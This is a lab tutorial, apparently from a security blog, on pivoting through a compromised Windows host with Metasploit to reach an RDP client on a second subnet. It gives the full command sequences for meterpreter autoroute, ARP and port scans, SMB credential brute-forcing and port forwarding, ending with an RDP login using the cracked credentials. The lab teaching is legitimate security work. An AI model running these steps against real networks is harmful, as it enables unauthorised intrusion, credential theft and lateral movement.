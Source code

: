 # RDP Pivoting with Metasploit

**Lab Setup requirement:**

**Attacker machine**: Kali Linux

**Pivot Machine \(server\)**: window operating system with **two** network interface

**Target Machine \(client\)**: window 7 \(Allow RDP service\)

![](https://i0.wp.com/4.bp.blogspot.com/-RXRb9RbKbVM/Wc8_x4SWLiI/AAAAAAAARuE/Ip0TWpJAWboG5Sdk18vW0NQwKSZ3l9vVwCLcBGAs/s1600/rdp.png?w=687&ssl=1)

Use exploit MS17-010 or multi handler to hack the pivot machine and bypass its UAC to achieve admin privileges.sessions

| 1 | sessions |
| :--- | :--- |


Hence if you will count then currently attacker has hold 2 sessions, **1st** for meterpreter shell and **2nd** for **bypass UAC** of the server.

![](https://i0.wp.com/3.bp.blogspot.com/-QCeXiZBTToo/WbvgVD4XYjI/AAAAAAAARZE/zpRMmmIjYFokMWibv3n0ypXuTV4YyKRJQCLcBGAs/s1600/1.png?w=687&ssl=1)

Check the network interface through the following command:meterpreter&gt; ifconfig

| 1 | meterpreter&gt; ifconfig |
| :--- | :--- |


From the given image you can observe two networks interface in the victim’s system **1st** for IP **192.168.0.27** through which the attacker is connected and **2nd** for IP **192.168.100.100** through which clients \(targets\) are connected.

![](https://i1.wp.com/4.bp.blogspot.com/-VLxe-RUbEVE/WbvgVAQxO3I/AAAAAAAARZA/ke4JjxQAz2IXf45-jQJy_tgxIVLAR4GBACLcBGAs/s1600/2.png?w=687&ssl=1)

Since the attacker belongs to **192.168.0.1** interface and client belongs to **192.168.100.0** interface, therefore, it is not possible to directly make an attack on client network until unless the attacker acquires the same network connection. In order to achieve 192.168.100.0 network attacker need to run the **post exploitation** “autoroute”.

This module manages session routing via an existing Meterpreter session. It enables other modules to ‘pivot’ through a compromised host when connecting to the named NETWORK and SUBMASK. Autoadd will search a session for valid subnets from the routing table and interface list then add routes to them. The default will add a default route so that all TCP/IP traffic not specified in the MSF routing table will be routed through the session when pivoting.msf &gt; use post/multi/manage/autoroute   
msf post\(autoroute\) &gt; set session 2  
msf post\(autoroute\) &gt; exploit

| 123 | msf &gt; use post/multi/manage/autoroute msf post\(autoroute\) &gt; set session 2msf post\(autoroute\) &gt; exploit |
| :--- | :--- |


**Note:** If you had not to bypass UAC you can use session 1 for post exploit.

![](https://i0.wp.com/4.bp.blogspot.com/-K3JDxJ-vSFY/WbvgVwmvK1I/AAAAAAAARZI/YtAna9EbOjoGbXWODsTU5eYN4Z0BSTolQCLcBGAs/s1600/3.png?w=687&ssl=1)

This Module will perform an ARP scan for a given IP range through a Meterpreter Session.use post/windows/gather/arp\_scanner  
msf post\(arp\_scanner\) &gt; set rhosts 192.168.100.100-110  
msf post\(arp\_scanner\) &gt; set session 2  
msf post\(arp\_scanner\) &gt; set threads 20  
msf post\(arp\_scanner\) &gt; exploit

| 12345 | use post/windows/gather/arp\_scannermsf post\(arp\_scanner\) &gt; set rhosts 192.168.100.100-110msf post\(arp\_scanner\) &gt; set session 2msf post\(arp\_scanner\) &gt; set threads 20msf post\(arp\_scanner\) &gt; exploit |
| :--- | :--- |


 ****Here we found a new IP **192.168.100.103** as shown in the given image. Let’s perform TCP port scan for activated services on this machine.

![](https://i1.wp.com/2.bp.blogspot.com/-V4k4tFjwRdg/WbvgV8_V16I/AAAAAAAARZM/8rnOISQaaSI5Ew4kpwaVyR21K07aYKYBACLcBGAs/s1600/4.png?w=687&ssl=1)

This module Enumerates open TCP services by performing a full TCP connect on each port. This does not need administrative privileges on the source machine, which may be useful if pivoting.use auxiliary/scanner/portscan/tcp  
msf auxiliary\(tcp\) &gt; set ports 445,3389  
msf auxiliary\(tcp\) &gt; set rhosts 192.168.100.103  
msf auxiliary\(tcp\) &gt; set threads 10  
msf auxiliary\(tcp\) &gt;exploit

| 12345 | use auxiliary/scanner/portscan/tcpmsf auxiliary\(tcp\) &gt; set ports 445,3389msf auxiliary\(tcp\) &gt; set rhosts 192.168.100.103msf auxiliary\(tcp\) &gt; set threads 10msf auxiliary\(tcp\) &gt;exploit |
| :--- | :--- |


From given you can observe **port 3389** and **port 445** are **open** and we know that 3389 is used for RDP and 445 is used for SMB.

![](https://i2.wp.com/3.bp.blogspot.com/-zYYn5tiX8J4/WbvgWGIELfI/AAAAAAAARZQ/cVWDArB2DKECRa3CUE0tDjWruxNJomH6wCLcBGAs/s1600/5.png?w=687&ssl=1)

This module will test an SMB login on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.use auxiliary/scanner/smb/smb\_login  
msf exploit \(smb\_login\)&gt;set rhosts 192.168.100.103  
msf exploit \(smb\_login\)&gt;set user\_file /root/Desktop/user.txt  
msf exploit \(smb\_login\)&gt;set pass\_file /root/Desktop/pass.txt  
msf exploit \(smb\_login\)&gt;set stop\_on\_success true  
msf exploit \(smb\_login\)&gt;exploit

| 123456 | use auxiliary/scanner/smb/smb\_loginmsf exploit \(smb\_login\)&gt;set rhosts 192.168.100.103msf exploit \(smb\_login\)&gt;set user\_file /root/Desktop/user.txtmsf exploit \(smb\_login\)&gt;set pass\_file /root/Desktop/pass.txtmsf exploit \(smb\_login\)&gt;set stop\_on\_success truemsf exploit \(smb\_login\)&gt;exploit |
| :--- | :--- |


 From the given image you can observe the highlights pentest: 123 has success login.

![](https://i1.wp.com/4.bp.blogspot.com/-bc0mJUGMHG4/WbvgWliZr9I/AAAAAAAARZU/Q5_0FCWg_uEcny5rO_avUUqYtBjRP5bxwCLcBGAs/s1600/6.png?w=687&ssl=1)

Now Type the following command for port forwarding on localhost.meterpreter&gt; portfwd add –l 3389 –p 3389 –r 192.168.100.103 

| 1 | meterpreter&gt; portfwd add –l 3389 –p 3389 –r 192.168.100.103  |
| :--- | :--- |


-l: This is a local port to listen on.

-p: The remote port to connect on.

-r:  The remote host address to connect on.

![](https://i1.wp.com/2.bp.blogspot.com/-B-paepTs-zc/WbvgWzkLGNI/AAAAAAAARZY/y5jJX1K5010HpGis32mlua5eDzaegdZWQCLcBGAs/s1600/7.png?w=687&ssl=1)

Now type the following command to connect RDP client on localhost through port 3389rdesktop 127.0.0.1:3389

| 1 | rdesktop 127.0.0.1:3389 |
| :--- | :--- |


![](https://i2.wp.com/2.bp.blogspot.com/-mGrW6Oj2-lQ/WbvgW7OuCiI/AAAAAAAARZc/AJmHMNK0w6szWXZV_M68zJXpQzphCBM5ACLcBGAs/s1600/8.png?w=687&ssl=1)

Now it will ask to enter the credential for connecting with RDP client; Enter the combination of username and password you have retrieved from SMB login Exploit.

If you remembered we have retrieved **pentest: 123** through smb login exploit which we are using for login.

![](https://i2.wp.com/1.bp.blogspot.com/-DEKv_HYkwe0/WbvgXcA1lxI/AAAAAAAARZg/Xpt2OpIa9TM4rGv1yykCNxVbSlD9IPbVwCLcBGAs/s1600/9.1.png?w=687&ssl=1)

**Wonderful!!** We had successfully exploited the RDP client.

![](https://i2.wp.com/3.bp.blogspot.com/-dDVDd4y8S7Q/WbvgXofWsCI/AAAAAAAARZk/-gkK1moKlFwKzFmlCZbSBErAF1BOc7g5ACLcBGAs/s1600/9.png?w=687&ssl=1)

**Author**: Aarti Singh is a Researcher and Technical

